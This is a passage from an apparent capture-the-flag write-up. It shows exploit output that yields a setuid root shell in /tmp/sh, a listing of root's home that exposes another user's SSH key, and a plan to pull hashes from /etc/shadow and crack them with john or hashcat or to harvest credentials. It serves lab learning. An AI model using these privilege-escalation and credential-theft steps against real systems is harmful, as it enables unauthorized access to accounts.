 [.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
Error org.freedesktop.DBus.Error.NoReply: Did not receive a reply. Possible causes include: the remote application did not send a reply, the message bus security policy blocked the reply, the reply timeout expired, or the network connection was broken.
[+] Success:
-rwsrwxr-x 1 root root 8392 Sep 17 09:31 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
$ whoami
root
```

And with that, we should be able to obtain the root flag.

Well, almost.

```
$ ls

flag.py  flag.pyc  __pycache__  test.py
```

contents of `flag.py` and `flag.pyc` is just beth's `id_rsa` key. Turns out the bastards decided to pull one small trick from up their sleeves

```
$ ls -la

total 52
drwx------  6 root root 4096 Sep 17 09:40 .
drwxr-xr-x 23 root root 4096 Apr  7  2024 ..
lrwxrwxrwx  1 root root    9 Sep 18  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Apr 23  2024 .cache
-rw-r--r--  1 beth beth 2246 Mar 16  2024 flag.py
-rw-r--r--  1 beth beth 2481 Mar 16  2024 flag.pyc
drwx------  3 root root 4096 Apr 23  2024 .gnupg
drwxr-xr-x  3 root root 4096 Sep 16  2023 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Mar 16  2024 __pycache__
-rw-rw-r--  1 root root   27 Sep 18  2023 .root.txt
-rw-r--r--  1 root root   66 Mar 10  2024 .selected_editor
-rw-r--r--  1 beth beth  173 Sep 17 09:40 test.py

$ cat .root.txt 
<redacted>
```

Well thats all well and done. All that is left is to crack charles' password. To do this, we first pull charles' password from `/etc/shadows` and slap it onto a file in order to pass it to john the ripper or hashcat.

Problem is, CTF hash cracking rarely takes more than 10 minutes. Going over this is a good indicator that this is probably not the proper way to go about it. If we are luckily, we might be able to do some credential harvesting.

Remember, we are root. We can browse charles' home folder now.

```